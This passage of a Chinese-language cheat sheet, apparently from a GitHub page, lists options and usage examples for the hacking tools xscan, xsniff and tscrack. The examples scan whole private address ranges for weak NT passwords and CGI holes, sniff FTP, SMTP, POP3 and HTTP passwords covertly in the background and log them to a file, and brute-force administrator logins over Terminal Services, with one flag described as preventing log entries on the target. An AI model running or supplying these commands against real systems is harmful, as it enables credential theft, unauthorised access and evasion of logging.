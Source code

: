 - `-iis` 检测IIS编码/解码漏洞
- `-cgi` 检测CGI漏洞
- `-nasl` 加载Nessus攻击脚本
- `-all` 检测以上所有项目
- 
_其它选项:_

- `-i` 适配器编号 设置网络适配器, <适配器编号>可通过"-l"参数获取
- `-l` 显示所有网络适配器
- `-v` 显示详细扫描进度
- `-p` 跳过没有响应的主机
- `-o` 跳过没有检测到开放端口的主机
- `-t` 并发线程数量,并发主机数量 指定最大并发线程数量和并发主机数量, 默认数量为100,10
- `-log` 文件名 指定扫描报告文件名 (后缀为：TXT或HTML格式的文件)
##### 用法示例

- `xscan -host 192.168.1.1-192.168.255.255 -all -active -p　`检测`192.168.1.1-192.168.255.255`网段内主机的所有漏洞，跳过无响应的主机
- `xscan -host 192.168.1.1-192.168.255.255 -port -smb -t 150 -o `检测`192.168.1.1-192.168.255.255`网段内主机的标准端口状态，NT弱口令用户，最大并发线程数量为150，跳过没有检测到开放端口的主机
- `xscan -file hostlist.txt -port -cgi -t 200,5 -v -o `检测`hostlist.txt`文件中列出的所有主机的标准端口状态，CGI漏洞，最大并发线程数量为200，同一时刻最多检测5台主机，显示详细检测进度，跳过没有检测到开放端口的主机
### 命令行方式嗅探器: xsniff.exe
#### 可捕获局域网内FTP/SMTP/POP3/HTTP协议密码
##### 参数说明:

- `-tcp` 输出TCP数据报
- `-udp` 输出UDP数据报
- `-icmp` 输出ICMP数据报
- `-pass` 过滤密码信息
- `-hide` 后台运行
- `-host` 解析主机名
- `-addr IP地址` 过滤IP地址
- `-port 端口` 过滤端口
- `-log 文件名` 将输出保存到文件
- `-asc` 以ASCII形式输出
- `-hex` 以16进制形式输出

##### 用法示例

- `xsniff.exe -pass -hide -log pass.log `后台运行嗅探密码并将密码信息保存在pass.log文件中
- `xsniff.exe -tcp -udp -asc -addr 192.168.1.1` 嗅探192.168.1.1并过滤tcp和udp信息并以ASCII格式输出
### 终端服务密码破解: tscrack.exe
#### 参数说明

- `-h` 显示使用帮助
- `-v` 显示版本信息
`-s` 在屏幕上打出解密能力
- `-b` 密码错误时发出的声音
`-t` 同是发出多个连接（多线程）
- `-N` Prevent System Log entries on targeted server
- `-U` 卸载移除tscrack组件
- `-f` 使用－f后面的密码
- `-F` 间隔时间（频率）
- `-l` 使用`－l`后面的用户名
- `-w` 使用`－w`后面的密码字典
- `-p` 使用`－p`后面的密码
- `-D` 登录主页面
##### 用法示例
- `tscrack 192.168.0.1 -l administrator -w pass.dic` 远程用密码字典文件暴破主机的`administrator`的登陆密码
- `tscrack 192.168.0.1 -l administrator -p 123456` 用密码`123456`远程登陆`192.168.0.1`的`administrator`用户
